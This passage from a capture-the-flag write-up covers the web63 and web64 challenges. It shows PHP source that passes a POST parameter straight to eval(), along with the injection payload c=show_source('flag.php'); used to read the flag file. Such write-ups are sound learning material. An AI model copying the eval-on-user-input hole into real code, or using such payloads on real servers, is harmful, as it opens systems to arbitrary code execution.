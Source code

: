 ```
c=show_source('flag.php');

```

## web63

> 
源码


```
&lt;?php

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```

> 
Payload


```
c=show_source('flag.php');

```

## web64

> 
源码


```
&lt;?php

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```

> 
Payload


```
c=show_source('flag.php');

```
